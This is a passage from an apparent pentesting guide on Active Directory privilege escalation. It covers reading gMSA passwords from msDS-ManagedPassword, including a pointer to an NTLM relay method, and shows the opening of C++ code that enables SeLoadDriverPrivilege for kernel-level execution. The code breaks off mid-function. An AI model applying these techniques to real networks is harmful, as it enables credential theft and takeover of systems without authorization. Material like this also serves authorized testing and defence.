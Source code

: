   gMSA accounts have their passwords stored in a LDAP property called _**msDS-ManagedPassword**_ which **automatically** get **resets** by the DC’s every 30 days, are **retrievable** by **authorized administrators** and by the **servers** who they are installed on. _**msDS-ManagedPassword**_ is an encrypted data blob called [MSDS-MANAGEDPASSWORD\_BLOB](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e) and it’s only retrievable when the connection is secured, **LDAPS** or when the authentication type is ‘Sealing & Secure’ for an example.

![Image from https://cube0x0.github.io/Relaying-for-gMSA/](../../.gitbook/assets/asd1.png)

So, if gMSA is being used, find if it has **special privileges** and also check if you have **permissions** to **read** the password of the services.

Also, check this [web page](https://cube0x0.github.io/Relaying-for-gMSA/) about how to perform a **NTLM relay attack** to **read** the **password** of **gMSA**.

## SeLoadDriverPrivilege <a id="seloaddriverprivilege"></a>

A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:

![](../../.gitbook/assets/a8.png)

`Whoami /priv` shows the privilege is disabled by default:

![](../../.gitbook/assets/a9.png)

However, the below code allows enabling that privilege fairly easily:

{% code title="privileges.cpp" %}
```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    bool bEnablePrivilege(true);
    HANDLE hToken(NULL);
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

    if (!LookupPrivilegeValue(
        NULL,            // lookup privilege on local system
        L"SeLoadDriverPrivilege",   // privilege to lookup 
        &luid))        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %un", GetLastError());
        return FALSE;
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;

    if (bEnablePrivilege) {
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    }

    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
```